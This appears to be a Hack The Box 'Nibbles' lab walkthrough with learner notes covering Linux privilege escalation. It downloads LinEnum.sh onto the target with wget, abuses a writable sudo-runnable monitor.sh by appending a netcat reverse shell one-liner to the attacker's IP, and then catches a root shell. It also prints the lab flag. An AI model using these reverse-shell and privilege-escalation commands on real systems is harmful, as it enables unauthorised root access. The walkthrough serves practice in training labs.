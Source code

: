 Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the `personal.zip` file and see a file called `monitor.sh`.

```shell-session
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

The shell script `monitor.sh` is a monitoring script, and it is owned by our `nibbler` user and writeable.

```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done

 <SNIP>
```

Let us put this aside for now and pull in [LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) to perform some automated privilege escalation checks. First, download the script to your local attack VM or the Pwnbox and then start a `Python` HTTP server using the command `sudo python3 -m http.server 8080`.

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```

Back on the target type `wget http://<your ip>:8080/LinEnum.sh` to download the script. If successful, we will see a 200 success response on our Python HTTP server. Once the script is pulled over, type `chmod +x LinEnum.sh` to make the script executable and then type `./LinEnum.sh` to run it. We see a ton of interesting output but what immediately catches the eye are `sudo` privileges.

```shell-session
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```

The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. Let us edit the `monitor.sh` file to append a reverse shell one-liner.

```shell-session
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

If we cat the `monitor.sh` file, we will see the contents appended to the end. `It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.` Execute the script with `sudo`:

```shell-session
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

Finally, catch the root shell on our waiting `nc` listener.

```shell-session
Luis Miguel Jaime Hernandez@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```

From here, we can grab the `root.txt` flag. Finally, we have now solved our first box on HTB. Try to replicate all of the steps on your own. Try various tools to achieve the same effect. We can use many different tools for the various steps required to solve this box. This walkthrough shows one possible method. Make sure to take detailed notes to practice that vital skillset.

Escalate privileges and submit the root.txt flag.

`de5e5d6619862a8aa5b9b212314e0cdd`
* same steps as Nibbles - Initial Foothold
* unzip personal.zip
* cd personal/stuff
* copy LinEnum.sh on your attack VM from https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
* `sudo python3 -m http.server 8080` (on your attack VM)
* `wget http://<attacker vm ip>:8080/LinEnum.sh` on victim shell
* `chmod +x LinEnum.sh` on victim shell
* run command `./LinEnum.sh` on victim shell
* notice `[+] Possible sudo pwnage! /home/nibbler/personal/stuff/monitor.sh`
* run command `echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker vm ip> <attacker listening port> >/tmp/f' | tee -a monitor.sh` (remember to open a new port with a DIFFERENT number and run it on your attacker vm shell)
* run command `sudo /home/nibbler/personal/stuff/monitor.sh` on victim shell
* check your listening port shell, the reverse shell should be successful with the root id
* run command `python3 -c 'import pty; pty.spawn("/bin/bash")'` to have a full TTY
* cd /root
* cat root.txt
